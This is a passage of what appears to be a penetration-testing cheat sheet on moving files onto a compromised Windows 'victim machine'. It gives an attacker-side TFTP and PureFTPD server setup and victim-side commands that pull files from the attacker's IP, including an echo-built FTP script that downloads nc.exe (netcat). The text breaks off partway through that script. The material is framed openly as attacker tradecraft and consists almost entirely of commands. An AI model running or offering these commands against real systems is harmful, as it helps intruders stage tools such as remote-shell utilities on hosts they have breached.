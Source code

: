 <b>Recursive wget ftp download:</b>

	wget -r ftp://<[USER]>:<[PASSWORD]>@<[DOMAIN]>
	
# File Transfer Windows

<b>TFTP</b> (Installed by default up to Windows XP and 2003, In Windows 7, 2008 and above needs to be explicitly added. For this reason tftp not ideal file transfer protocol in most situations.)

	On attacker machine:
	
	mkdir tftp
	
	atftpd --deamon --port 69 tftp
	
	cp <[FILE]> tftp
	
	On victim machine shell:
	
	tftp -i <[IP]> GET <[FILE]>
	
<b>FTP</b> (Windows operating systems contain a default FTP client that can also be used for file transfer)

On attacker machine:

	(UNA TANTUM) Install a ftp server. apt-get install pure-ftpd
	
	(UNA TANTUM) Create new user for PureFTPD (see script setup-ftp.sh) (USER demo, PASS demo1234)
	
		groupadd ftgroup

		useradd -g ftpgroup -d /dev/null -s /etc ftpuser

		pure-pw useradd demo -u ftpuser -d /ftphome

		pure-pw mkdb

		cd /etc/pure-ftpd/auth

		ln -s ../conf/PureDB 60pdb

		mkdir -p /ftphome

		chown -R ftpuser:ftpgroup /ftphome
	
		/etc/init.d/pure-ftpd restart
	
	(UNA TANTUM) chmod 755 setup-ftp.sh
	
On victim machine shell:

	echo open <[IP]> 21 > ftp.txt
	
	echo USER demo >> ftp.txt
	
	echo ftp >> ftp.txt
	
	echo bin >> ftp.txt
	
	echo GET nc.exe >> ftp.txt
	
	echo bye >> ftp.txt
	